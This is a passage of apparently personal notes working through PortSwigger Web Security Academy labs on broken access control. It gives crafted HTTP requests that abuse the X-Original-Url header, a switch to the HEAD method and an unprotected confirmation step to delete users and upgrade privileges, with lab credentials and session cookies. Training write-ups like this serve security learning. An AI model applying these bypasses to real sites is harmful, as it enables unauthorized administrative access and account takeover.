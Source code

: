 ```
Host: 0ad300ad04c9d0528011305500b200b6.web-security-academy.net
X-Original-Url: /admin
```
4. We get `200 OK` and can see the HTTP response of the `/admin` page
5. There are two links to delete users `/admin/delete?username=carlos`
6. Construct a request to delete the user `carlos`
```
GET ?username=carlos HTTP/2
Host: 0ad300ad04c9d0528011305500b200b6.web-security-academy.net
X-Original-Url: /admin/delete
```
- Same can be done using a POST request
```
POST HTTP/2 HTTP/2
Host: 0ad300ad04c9d0528011305500b200b6.web-security-academy.net
X-Original-Url: /admin/delete

...<SNIP>...
username=carlos
```
# Method-based access control can be circumvented
1. Login to admin panel `administrator:admin` 
2. Capture requests to upgrade/downgrade `wiener`
3. Logout and login with `wiener:peter` to get their session token
4. Replaying request to upgrade `wiener` returns `401`
```
POST /admin-roles HTTP/2
Host: 0a0800b50405c5e180e377c9004e0017.web-security-academy.net
Cookie: session=MdZyuo0BvLeGDc9b3mRDOjwcu3eauTYS

username=wiener&action=downgrade
```
5. Change request method to `HEAD` and place the parameters in the URL
```
HEAD /admin-roles?username=wiener&action=upgrade HTTP/2
Host: 0a0800b50405c5e180e377c9004e0017.web-security-academy.net
Cookie: session=MdZyuo0BvLeGDc9b3mRDOjwcu3eauTYS
```
6. Account is now upgraded
# Multi-step process with no access control on one step
1. Login to admin panel `administrator:admin`
2. Upgrading user sends two POST requests the second one "Confirming" the action which just adds an additional parameter in the POST body
```
action=upgrade&confirmed=true&username=wiener
```
3. Send this request to repeater
4. Login as `wiener` and get their session token
5. Send request with `wiener`'s session to the same "Confirm" endpoint to upgrade their user account
```
POST /admin-roles HTTP/2
Host: 0ac3008503d4845080f88ffb00390069.web-security-academy.net
Cookie: session=rH9ASUnMc7Sr2gdLoMweuuFOSyitsC7A

action=upgrade&confirmed=true&username=wiener
```
# Referer-based access control
1. Login to admin panel `administrator:admin` 
2. Capture requests to upgrade/downgrade `wiener`
3. Logout and login with `wiener:peter` to get their session token
